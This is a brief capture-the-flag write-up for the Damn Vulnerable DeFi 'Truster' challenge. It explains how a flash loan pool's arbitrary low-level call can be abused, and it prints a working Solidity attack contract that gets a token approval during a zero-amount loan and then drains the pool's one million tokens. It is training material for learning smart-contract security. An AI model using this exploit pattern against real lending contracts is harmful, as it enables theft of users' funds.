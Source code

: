 # Truster CTF Writeup

## Challenge Description
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.



## The Exploit Strategy
There is a contract called TrusterLender.sol. in TrusterLender.sol there is a vuln in function ,the function callinng low level call on target address 

The attack strategy revolves around getting approval on maximum number of tokens of DVT token after flashlon we can transfer to recovery address.

1. create flashloan for zero ammount and exploitable low level data
2. after getting flasloan transfer to recovey address



## Solution
```solidity
contract Attack {
    address recovery;
    TrusterLenderPool public pool;

    constructor(TrusterLenderPool _challenge, address _recovery) {
        pool = _challenge;
        recovery = _recovery;
    }

    function attack() public {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), 1_000_000e18);
        pool.flashLoan(0, address(this), address(pool.token()), data);
        pool.token().transferFrom(address(pool), recovery, 1_000_000e18);
    }
}
```

## References
- [Solution Link](https://docs.soliditylang.org/)
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)
